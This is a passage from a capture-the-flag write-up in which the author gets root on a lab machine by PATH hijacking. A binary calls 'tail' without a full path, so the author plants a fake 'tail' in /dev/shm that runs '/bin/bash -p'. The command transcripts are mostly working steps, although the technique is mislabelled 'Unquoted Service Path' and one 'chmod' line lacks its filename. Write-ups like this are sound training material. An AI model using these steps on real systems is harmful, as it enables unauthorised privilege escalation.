 ```text
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
```

## Unquoted Service Path

This time I found it on the first go. We can see there is a call to tail which doesn't include the full path to the binary. We can exploit this unquoted path to execute a file of our choice. [This](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) article is quite detailed if you want to better understand it this type of attack.

First move to another folder, then add it to the PATH of the system:

```text
barry@mustacchio:/home/joe$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:/home/joe$ cd /dev/shm
barry@mustacchio:/dev/shm$ export PATH=/dev/shm:$PATH
barry@mustacchio:/dev/shm# echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Now we can create a file in this folder called tail, and when the live_log binary is executed it will call our file instead of the correct version of tail:

```text
barry@mustacchio:/dev/shm# echo "/bin/bash -p" > tail
barry@mustacchio:/dev/shm# chmod +x
```

## Root Flag

Finally we can run the live_log binary to switch us to root:

```text
barry@mustacchio:/dev/shm$ /home/joe/live_log
root@mustacchio:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
```

Let's get the root flag:

```text
root@mustacchio:/dev/shm# cat /root/root.txt
<HIDDEN>
```

And we are all done. That was a nice simple room, I hope you enjoyed it and learned something useful along the way.

See you next time.

